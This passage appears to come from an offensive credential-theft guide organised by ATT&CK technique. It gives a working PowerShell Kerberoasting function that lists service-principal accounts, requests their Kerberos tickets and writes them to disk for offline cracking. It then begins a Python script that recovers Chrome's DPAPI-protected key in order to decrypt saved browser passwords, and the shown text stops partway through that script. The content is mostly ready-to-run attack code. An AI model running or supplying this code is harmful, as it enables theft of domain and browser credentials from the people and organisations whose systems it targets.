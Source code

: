 **Kerberoasting Script**:
```powershell
# Automated Kerberoasting
function Invoke-Kerberoast {
    # Find SPNs
    $searcher = [adsisearcher]"(&(objectCategory=person)(servicePrincipalName=*))"
    $searcher.PropertiesToLoad.Add("servicePrincipalName") | Out-Null
    $searcher.PropertiesToLoad.Add("samAccountName") | Out-Null
    
    $results = $searcher.FindAll()
    
    foreach ($result in $results) {
        $spn = $result.Properties["serviceprincipalname"][0]
        $sam = $result.Properties["samaccountname"][0]
        
        Write-Host "[*] Requesting ticket for: $sam ($spn)"
        
        # Request service ticket
        Add-Type -AssemblyName System.IdentityModel
        $ticket = New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $spn
        
        # Export ticket
        $ticketBytes = $ticket.GetRequest()
        
        # Save to file for cracking
        [System.IO.File]::WriteAllBytes("$sam.kirbi", $ticketBytes)
    }
}

Invoke-Kerberoast
```

---

## 2. File-Based Credential Harvesting

### 2.1 Browser Credentials (T1555.003)

#### Chrome Password Extraction
```python
import os
import json
import base64
import sqlite3
from Crypto.Cipher import AES
import win32crypt

def get_chrome_passwords():
    """Extract saved passwords from Chrome"""
    
    # Chrome user data path
    user_data = os.path.expandvars(r"%LOCALAPPDATA%\Google\Chrome\User Data")
    
    # Get encryption key
    local_state_path = os.path.join(user_data, "Local State")
    with open(local_state_path, 'r') as f:
        local_state = json.loads(f.read())
    
    encrypted_key = base64.b64decode(local_state["os_crypt"]["encrypted_key"])
    encrypted_key = encrypted_key[5:]  # Remove 'DPAPI' prefix
    key = win32crypt.CryptUnprotectData(encrypted_key, None, None, None, 0)[1]
    
    # Connect to Login Data database
```
